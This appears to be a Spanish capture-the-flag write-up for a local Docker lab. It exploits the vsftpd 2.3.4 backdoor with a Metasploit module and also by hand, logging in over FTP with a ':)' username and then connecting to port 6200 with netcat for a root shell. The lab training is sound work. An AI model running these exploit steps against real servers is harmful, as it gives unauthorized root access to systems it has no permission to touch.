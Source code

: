 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh firsthacking.tar
```

![Pasted image 20250130162053](https://github.com/user-attachments/assets/c44a975a-6fc8-40bb-bf03-f128554e897b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250130162149](https://github.com/user-attachments/assets/c87c9ee2-5aa5-4c70-9215-e4b02c192061)

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search vsftpd
```

![Pasted image 20250130162511](https://github.com/user-attachments/assets/28f427c5-a837-4f5a-84cd-ec5b4f4ad9c5)

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Pasted image 20250130162525](https://github.com/user-attachments/assets/1c1fdc4b-313a-4f86-8c27-94251972738c)

```
show options
```

![Pasted image 20250130162540](https://github.com/user-attachments/assets/13715516-34db-4a3b-a580-88ce5ebb33fd)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250130162555](https://github.com/user-attachments/assets/7360a8b6-e2bf-4436-b428-9cbd191fd933)

```
show options
```

![Pasted image 20250130162608](https://github.com/user-attachments/assets/0a422cea-66f1-4383-a97c-d83bbd2867aa)

```
exploit
```

![Pasted image 20250130162625](https://github.com/user-attachments/assets/6e8b3cee-3c4c-4e27-9645-0bec9e113f29)

```Bash
/bin/bash -i
```

![Pasted image 20250130162636](https://github.com/user-attachments/assets/09ef7af3-e9fd-41f1-8a75-3597215adb4c)

```Bash
whoami
```

![Pasted image 20250130162654](https://github.com/user-attachments/assets/610b8afd-227d-4a6a-a8fd-002ac98b23c1)

Otra forma de explotar:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250130162943](https://github.com/user-attachments/assets/1d31d150-9de8-4105-93a2-d4a2b34d8d29)

```Bash
hola:)
```

![Pasted image 20250130163018](https://github.com/user-attachments/assets/4c22136c-96b6-49e1-8bef-387a1d76f1aa)

```Bash
'blank'
```

![Pasted image 20250130163104](https://github.com/user-attachments/assets/6cd7b704-5d5f-4460-9590-f4964b992335)

Comprobamos que se ha abierto el puerto 6200:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p 6200 172.17.0.2
```

![Pasted image 20250130163147](https://github.com/user-attachments/assets/cd83e74d-d870-4c14-95d6-373267d26f20)

Nos conectamos al puerto con **Netcat**:

```Bash
nc 172.17.0.2 6200
```

![Pasted image 20250130163304](https://github.com/user-attachments/assets/1057a3cb-539c-4d6e-91cd-f62ff86f4550)

```Bash
/bin/bash -i
```

![Pasted image 20250130163320](https://github.com/user-attachments/assets/36be5d74-f6e7-42b4-aed0-24409f467b41)

```Bash
whoami
```

![Pasted image 20250130163330](https://github.com/user-attachments/assets/ce7e769c-9c73-4497-9c4e-1825ed7f6928)
